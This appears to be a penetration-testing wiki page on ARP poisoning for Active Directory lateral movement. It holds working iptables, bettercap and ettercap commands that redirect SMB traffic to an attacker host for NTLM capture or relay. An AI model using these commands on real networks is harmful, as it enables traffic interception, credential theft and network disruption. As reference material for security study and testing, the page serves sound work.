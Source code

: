```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.002
---
```


# 🛠️ ARP poisoning

{% hint style="danger" %}
Add PCredz [https://github.com/lgandx/PCredz](https://github.com/lgandx/PCredz)
{% endhint %}

## Theory

The ARP \(Address Resolution Protocol\) is used to link IPv4 addresses with MAC addresses, allowing machines to communicate within networks. Since that protocol works in broadcast, attackers can try to impersonate machines by answering ARP requests \(_"Who is using address 192.168.56.1? I am!"_\) or by flooding the network with ARP announcements \(_"Hey everyone, nobody asked but I'm the one using address 192.168.56.1"_\). This is called ARP spoofing \(also called ARP poisoning\).

## Practice

{% hint style="danger" %}
Since spoofing every address in a subnet can cause temporary but severe disruption in that subnet, it is highly recommended to target specific addresses and machines while doing ARP spoofing.
{% endhint %}

There are multiple scenarios where ARP spoofing can be used to operate lateral movement within Active Directory domains. 

1. One could spoof an SMB server and route received SMB packets to internal capture or relay servers for [NTLM capture](../abusing-lm-and-ntlm/capturing-hashes.md) or [NTLM relay](../abusing-lm-and-ntlm/relay.md). 
2. One could also spoof the internal DNS server, so that DNS queries can be answered with fake resolution \([DNS spoofing](dns-spoofing.md)\).

### Preparation

In order to conduct ARP spoofing attacks, the attacker's machine needs to be prepared accordingly \(IP forwarding enabled, outgoing ICMP dropped, internal traffic rerouted\).

```bash
# IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# outgoing ICMP drop (prevents sending port/host unreachable to target)
iptables -A OUTPUT -p ICMP -j DROP

# internal traffic rerouting of SMB packets (port 445, can be changed)
iptables --table nat --append PREROUTING --proto tcp --dst $SPOOFED_IP --dport 445 --jump DNAT --to-destination $ATTACKER_IP:445
```

### Spoofing

Tools like [ettercap](https://www.ettercap-project.org/) \(C\) of [bettercap](https://www.bettercap.org/) \(Go\) can then be used to flood the network with ARP announcements for a specific IP address.

{% tabs %}
{% tab title="Bettercap" %}
The following commands can be used, with parameters as follows

* `set arp.spoof.targets` to set the targets
* `set arp.spoof.internal true` to make bettercap spoof local connections among computers of the network
* `arp.ban on` to start the spoofer in ban mode, meaning the target\(s\) connectivity will not work
* `arp.spoof` on to start the spoofer

```bash
set arp.spoof.targets $TARGET_TO_POISON_IP
set arp.spoof.internal true
arp.ban on
arp.spoof on
```
{% endtab %}

{% tab title="Ettercap" %}
While bettercap is now usally a better alternative to ettercap, the following command can be used for ARP spoofing.

```bash
ettercap --text --quiet --nopromisc --mitm arp:remote /$SWITCH_IP// /$TARGET_TO_POISON_IP//
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/\#arp-spoofing" %}

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/" %}

{% embed url="https://ivanitlearning.wordpress.com/2019/04/07/arp-dns-poisoning-with-bettercap-and-impacket-ntlmrelayx/" %}

